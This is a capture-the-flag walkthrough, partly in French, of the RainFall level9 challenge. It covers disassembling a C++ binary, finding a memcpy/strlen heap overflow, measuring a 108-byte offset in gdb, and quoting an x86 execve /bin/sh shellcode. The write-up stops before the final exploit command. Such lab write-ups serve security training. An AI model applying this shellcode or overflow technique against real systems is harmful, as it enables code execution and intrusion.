 ```
level9@RainFall:~$ ls
level9
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 55
level9@RainFall:~$ ./level9 55 66
level9@RainFall:~$ ./level9 55 663333333333
level9@RainFall:~$ ./level9
```
Ok so we have an executable which does nothing.
On remarque que le programme semble etre du cpp:
```
objdump -M intel -d level9

# on remarque
8048677:	e8 92 00 00 00       	call   804870e <_ZN1N13setAnnotationEPc>

0804870e <_ZN1N13setAnnotationEPc>:
 804870e:	55                   	push   ebp
 804870f:	89 e5                	mov    ebp,esp
 8048711:	83 ec 18             	sub    esp,0x18
 8048714:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048717:	89 04 24             	mov    DWORD PTR [esp],eax
 804871a:	e8 01 fe ff ff       	call   8048520 <strlen@plt>
 804871f:	8b 55 08             	mov    edx,DWORD PTR [ebp+0x8]
 8048722:	83 c2 04             	add    edx,0x4
 8048725:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048729:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 804872c:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048730:	89 14 24             	mov    DWORD PTR [esp],edx
 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
 8048738:	c9                   	leave
 8048739:	c3                   	ret

```
On observe un memcpy sur un strlen, on peux donc penser qu'il est possible de faire overflow le programme, essayons
avec eax etant un pointeur sur le second argument.
Tandis que edx pointe lui sur le premier argument

```
# https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ size 150
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
info register eax
eax            0x41366441	1094083649
Offset de 108
```

Shellcode : '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' # http://shell-storm.org/shellcode/files/shellcode-827.php

On remarque donc que EAX est situé à partir de 108 caracteres.
